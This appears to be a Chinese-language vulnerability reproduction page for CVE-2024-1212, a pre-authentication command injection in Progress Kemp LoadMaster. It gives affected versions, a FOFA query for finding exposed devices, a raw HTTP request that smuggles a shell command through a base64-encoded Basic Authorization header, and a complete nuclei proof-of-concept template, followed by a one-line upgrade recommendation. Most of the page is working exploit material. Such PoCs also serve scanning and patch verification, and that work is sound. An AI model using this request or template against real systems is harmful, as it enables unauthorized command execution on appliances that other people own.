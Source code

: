 **漏洞名称**

Progress Kemp LoadMaster 远程命令执行漏洞

**漏洞影响**

LoadMaster <= 7.2.59.2 (GA)

LoadMaster<=7.2.54.8 (LTSF)

LoadMaster <= 7.2.48.10 (LTS)

**漏洞描述**

Progress Kemp LoadMaster是一款负载均衡和应用交付控制器。LoadMaster /access/set接口处存在远程命令执行漏洞，攻击者可以通过未经身份验证的方式访问LoadMaster管理接口，从而执行任意系统命令。这可能导致系统遭受严重的安全威胁。

**FOFA搜索语句**

```
body="LoadMaster"
```

**漏洞复现**



向靶场发送如下数据包，其中JztsczsnOmRvZXNub3RtYXR0ZXI=是';ls;':doesnotmatter的base64编码

```yaml

GET /access/set?param=enableapi&value=1 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/604.1 (KHTML, like Gecko) Version/9.1.2 Safari/604.1
Connection: close
Accept: */*
Accept-Language: en
Authorization: Basic JztsczsnOmRvZXNub3RtYXR0ZXI=
Accept-Encoding: gzip
```

**nuclei poc**



poc文件内容如下

```yaml
id: CVE-2024-1212

info:
  name: Progress Kemp LoadMaster - Command Injection
  author: DhiyaneshDK
  severity: critical
  description: |
    Unauthenticated remote attackers can access the system through the LoadMaster management interface, enabling arbitrary system command execution.
  reference:
    - https://rhinosecuritylabs.com/research/cve-2024-1212unauthenticated-command-injection-in-progress-kemp-loadmaster
    - https://support.kemptechnologies.com/hc/en-us/articles/23878931058445-LoadMaster-Security-Vulnerability-CVE-2024-1212
    - https://support.kemptechnologies.com/hc/en-us/articles/24325072850573-Release-Notice-LMOS-7-2-59-2-7-2-54-8-7-2-48-10-CVE-2024-1212
    - https://nvd.nist.gov/vuln/detail/CVE-2024-1212
    - https://freeloadbalancer.com/
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10
    cve-id: CVE-2024-1212
    cwe-id: CWE-78
    epss-score: 0.00721
    epss-percentile: 0.802
  metadata:
    verified: true
    max-request: 1
    shodan-query: html:"LoadMaster"
  tags: cve,cve2024,progress,rce,loadmaster

http:
  - method: GET
    path:
      - "{{BaseURL}}/access/set?param=enableapi&value=1"
    headers:
      Authorization: "Basic JztsczsnOmRvZXNub3RtYXR0ZXI="

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "bin"
          - "mnt"
          - "WWW-Authenticate: Basic"
        condition: and

      - type: status
        status:
          - 200
# digest: 4a0a0047304502203c9fc29ea41909ec2bef545f7a4e29b165e9e11f14bade221b2ffc058c2c9051022100e36e3225d79c6a7ba704b8766c5603e5b2822e539c707a4f2a1a17052f2dfc47:922c64590222798bb761d5b6d8e72950
```

**修复建议**



升级到最新版本。
